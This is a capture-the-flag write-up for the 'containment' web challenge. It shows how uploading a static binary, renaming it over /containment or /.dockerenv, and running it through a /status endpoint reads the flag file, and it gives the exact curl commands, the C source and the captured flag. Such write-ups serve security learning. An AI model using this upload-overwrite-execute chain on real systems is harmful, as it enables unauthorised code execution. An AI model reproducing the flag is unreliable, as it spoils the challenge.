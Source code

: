 # containment

[library.m0unt41n.ch/challenges/containment](https://library.m0unt41n.ch/challenges/containment) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

Upload a custom binary and copy it over a conveniently located executable
file. Run that file through the `/status` endpoint and get the output.

# Setup

```bash
docker build -t containment:latest .
docker run -ti -p 8000:8000 containment:latest
```

## Adding busybox

Container is made `FROM scratch`, so, I thought it would be useful to add some more
tools, without messing with the logic. Static [BusyBox](https://busybox.net/) looked
good - note the version, at that point I thought I might be uploading some of it, so
I picked one that would fit under Rocket's default 1M upload limit.

```bash
$ mkdir bin
$ curl -o bin/busybox https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/busybox
$ chmod a+x bin/busybox
$ for C in $(bin/busybox --list); do ln -s busybox "bin/$C" ; done

$ echo -e "\nCOPY bin /bin\nENV PATH=/:/bin" >>Dockerfile
```

After rebuilding the container, we can login into it:

```bash
$ docker container exec -it $(docker ps -q) /bin/sh
```

# Hacking it

## Overwriting /containment with custom binary

My first idea was to overwrite the `/containment` binary, hoping that I don't run into `Text file busy`.

*   I wrote a simple `getflag.c` program:

    ```c
    #include <unistd.h>
    #include <fcntl.h>

    int main() {
        char buf[256];
        int fd = open("/flag.txt", O_RDONLY);
        int n = read(fd, buf, sizeof(buf));
        write(1, buf, n);
        close(fd);
        return 0;
    }
    ```

*   Built a static binary with `gcc -static -o getflag getflag.c`

*   Uploaded it to the server:

    ```bash
    $ URL=http://localhost:8000

    $ curl -X POST --data-binary "@getflag" -H "Content-Type: text/plain" $URL/upload
    fc2e2875-b309-4cc4-ac3e-b8aa0c8a51e0

    $ curl -X GET "$URL/rename?from=/tmp/uploads/fc2e2875-b309-4cc4-ac3e-b8aa0c8a51e0&to=/containment"
    Rename successful

    $ curl -X GET "$URL/status//containment/blah"
    stdout: flag{dummy_flag}
    stderr: 
    ```

Not bad &#128578; But it did not work on the remote instance.

## Alternative executable to overwrite

Maybe there is other executable that will work? Let's see in our Busybox-powered container:

```bash
$ find / -type f -executable
/.dockerenv
/containment
/bin/busybox
```

Ah, that empty `/.dockerenv`. It looked suspicious from the start! Let's try that.

```bash
$ URL=https://00fc5b6f-f2ba-473a-bcd2-af8f7a7809ac.library.m0unt41n.ch:31337

$ curl -X POST --data-binary "@getflag" -H "Content-Type: text/plain" $URL/upload
26332a23-25b1-4044-827a-d0c93b8b3223

$ curl -X GET "$URL/rename?from=/tmp/uploads/26332a23-25b1-4044-827a-d0c93b8b3223&to=/.dockerenv"
Rename successful

$ curl -X GET "$URL/status//.dockerenv/blah"
stdout: shc2022{rU5t_w3_Ar3_r34Dy_f0R_l1Ft0FF}
stderr: 
```

That was too easy &#128578; I wonder if this was unintended solution.

## Same thing without a custom program

Might as well use static `cat` from Busybox:

```bash
$ curl -o cat https://busybox.net/downloads/binaries/1.35.0-x86_64-linux-musl/busybox_CAT

$ curl -X POST --data-binary "@cat" -H "Content-Type: text/plain" $URL/upload
2c504bcc-fbe1-4bc4-bdbf-a8212f73908a

$ curl -X GET "$URL/rename?from=/tmp/uploads/2c504bcc-fbe1-4bc4-bdbf-a8212f73908a&to=/.dockerenv"
Rename successful

$ curl -X GET "$URL/status//.dockerenv//flag.txt"
stdout: shc2022{rU5t_w3_Ar3_r34Dy_f0R_l1Ft0FF}
stderr: 
```

---

## `shc2022{rU5t_w3_Ar3_r34Dy_f0R_l1Ft0FF}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
